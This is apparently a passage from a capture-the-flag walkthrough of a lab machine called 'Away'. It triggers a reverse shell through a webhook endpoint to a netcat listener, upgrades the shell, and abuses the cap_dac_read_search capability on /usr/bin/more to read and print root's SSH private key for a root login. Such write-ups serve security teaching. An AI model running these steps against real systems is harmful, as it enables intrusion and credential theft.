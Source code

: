 For our file containing the revere shell to be executed, we need to access the endpoint. But before this, we need to start a listener on our attack host to receive the connection from the target.
```bash
┌──(pentester㉿kali)-[~/Away]
└─$nc -lvnp 8000
listening on [any] 8000 ...
```

After starting our listener, we can access the endpoint on port 9000 of our target by using the endpoint's name we specified in the configuration file to trigger our payload.
```bash
┌──(pentester㉿kali)-[~/Away]
└─$curl http://10.0.2.25:9000/hooks/reverse-shell
```

If we go back to our listener we will notice a reverse connection from our target. We can upgrade this shell to obtain a fully interactive shell as shown below.
```bash
┌──(pentester㉿kali)-[~/Away]
└─$nc -lvnp 8000
listening on [any] 8000 ...
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.25] 38900
whereis python
python: /usr/bin/python3.9 /usr/lib/python2.7 /usr/lib/python3.9 /etc/python3.9 /usr/local/lib/python3.9
python3 -c 'import pty;pty.spawn("/bin/bash")'
lula@away:/tmp$ ^Z
zsh: suspended  nc -lvnp 8000

┌──(pentester㉿kali)-[~/Away]
└─$stty raw -echo;fg
[1]  + continued  nc -lvnp 8000
                               export TERM=xterm
lula@away:/tmp$ 
```

The webhook executable runed our payload without any  problem and now we have access to the system as Lula. Remember above that we enumerated the system and noticed that the /usr/bin/more binary had the [cap_dac_read_search](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_read_search) capability. The cap_dac_read_search capability enables a process to bypass permissions for reading files and for reading and executing directories. We can use this capability to read the root's private SSH keys. 
```bash
lula@away:~$ /usr/bin/more /root/.ssh/id_ed25519
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACCZsnRA543yhxJSmFw8Nc2vT6umh4rqVRA5RwgKbTm/SAAAAJB3Fxg4dxcY
OAAAAAtzc2gtZWQyNTUxOQAAACCZsnRA543yhxJSmFw8Nc2vT6umh4rqVRA5RwgKbTm/SA
AAAECDZ5NtdbnBm8jUAAdwpKe3m6amsmnVy+AS2qRite6MpZmydEDnjfKHElKYXDw1za9P
q6aHiupVEDlHCAptOb9IAAAACXJvb3RAYXdheQECAwQ=
-----END OPENSSH PRIVATE KEY-----
```

We can save this key to a file and attempt to connect to the system as the root user.
```bash
┌──(pentester㉿kali)-[~/Away/Misc File]
└─$nano root_id_ed25519
   
┌──(pentester㉿kali)-[~/Away/Misc File]
└─$chmod 600 root_id_ed25519 

┌──(pentester㉿kali)-[~/Away/Misc File]
└─$ssh root@10.0.2.25 -i root_id_ed25519

Linux away 5.10.0-15-amd64 #1 SMP Debian 5.10.120-1 (2022-06-09) x86_64
<SNIP>
Last login: Fri Jun 17 11:14:38 2022
```